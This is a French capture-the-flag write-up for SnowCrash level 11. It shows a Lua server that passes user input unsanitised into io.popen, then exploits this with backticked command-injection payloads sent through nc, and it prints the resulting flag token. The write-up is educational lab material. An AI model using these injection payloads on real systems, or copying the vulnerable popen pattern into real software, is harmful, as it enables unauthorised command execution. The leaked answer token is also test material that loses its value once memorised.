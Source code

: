 On trouve dans le dossier home un file **level11.lua** qui contient:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()
	data = string.sub(data, 1, 40)
	return data
end

while 1 do
	local client = server:accept()
	client:send("Password: ")
	client:settimeout(60)
	local l, err = client:receive()
	if not err then
		print("trying " .. l)
		local h = hash(l)
		if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
			client:send("Erf nope..\n");
		else
			client:send("Gz you dumb*\n")
		end
	end
	client:close()
end
```

On abserve que le programme est lancé sur **127.0.0.1:5151**, donc pour pouvoir interagir avec on utilise:
<pre><code>> nc 127.0.0.1 5151
Password:
Erf nope..</code></pre>

En regardant le programme de plus pres, on se rend compte qu'une injection est possible <code>io.popen("echo "..pass.." | sha1sum", "r")</code> car il execute la varibale pass, qui est notre input.
De plus la deuxieme partie du code ne sert a rien cart même un a message peut importe le mot de passe
> Le bon mot de passe est: **NotSoEasy** (rajouter un -n devant pour que cela fonctionne)

On essaye :
<pre><code>> nc 127.0.0.1 5151
Password: `whoami > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
flag11
</code></pre>
> On stocke le resultat dans un fichier car sinon il n'y a pas d'affichage car il ne s'agit pas d'un <code>client:send()</code>

<pre><code>> nc 127.0.0.1 5151
Password: `getflag > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</code></pre>

<pre>
<code>> getflag</code>
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</pre>